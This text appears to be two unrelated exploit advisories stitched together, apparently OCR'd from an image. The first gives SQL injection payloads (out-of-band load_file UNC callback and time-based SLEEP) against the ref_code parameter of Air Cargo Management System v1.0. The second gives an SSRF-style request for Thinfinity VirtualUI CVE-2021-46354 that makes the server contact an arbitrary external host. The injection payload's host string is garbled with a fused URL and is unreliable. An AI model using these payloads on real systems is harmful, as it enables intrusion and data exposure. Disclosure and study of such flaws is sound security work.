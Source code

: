 # Description:
The `ref_code` parameter from Air Cargo Management System v1.0 appears
to be vulnerable to SQL injection attacks.
The payload '+(select
load_file('\\\\c5idmpdvfkqycmiqwv299ljz1q7jvej5mtdg44t.https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html\\hag'))+'
was submitted in the ref_code parameter.
This payload injects a SQL sub-query that calls MySQL's load_file
function with a UNC file path that references a URL on an external
domain.
The application interacted with that domain, indicating that the
injected SQL query was executed.
WARNING: If this is in some external domain, or some subdomain
redirection, or internal whatever, this will be extremely dangerous!
Status: CRITICAL


[+] Payloads:

---
Parameter: ref_code (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: p=trace&ref_code=258044'+(select
load_file('\\\\c5idmpdvfkqycmiqwv299ljz1q7jvej5mtdg44t.https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html\\hag'))+''
AND (SELECT 9012 FROM (SELECT(SLEEP(3)))xEdD) AND 'JVki'='JVki
---
Exploit Title: Thinfinity VirtualUI  2.5.26.2 - Information Disclosure
Date: 18/01/2022
Exploit Author: Daniel Morales
Vendor: https://www.cybelesoft.com <https://www.cybelesoft.com/>
Software Link: https://www.cybelesoft.com/thinfinity/virtualui/ <https://www.cybelesoft.com/thinfinity/virtualui/>
Version vulnerable: Thinfinity VirtualUI < v2.5.26.2
Tested on: Microsoft Windows
CVE: CVE-2021-46354

How it works
External service interaction arises when it is possible to induce an application to interact with an arbitrary external service. The ability to send requests to other systems can allow the vulnerable server to filtrate the real IP of the webserver or increase the attack surface (it may be used also to filtrate the real IP behind a CDN).

Payload
An example of the HTTP request "https://example.com/cmd <https://example.com/cmd>?
cmd=connect&wscompression=true&destAddr=domain.com <http://domain.com/>
&scraper=fmx&screenWidth=1918&screenHeight=934&fitmode=0&argumentsp=&orientation=0&browserWidth=191
8&browserHeight=872&supportCur=true&id=null&devicePixelRatio=1&isMobile=false&isLandscape=true&supp
ortsFullScreen=true&webapp=false”

Where "domain.com <http://domain.com/>" is the external endpoint to be requested.
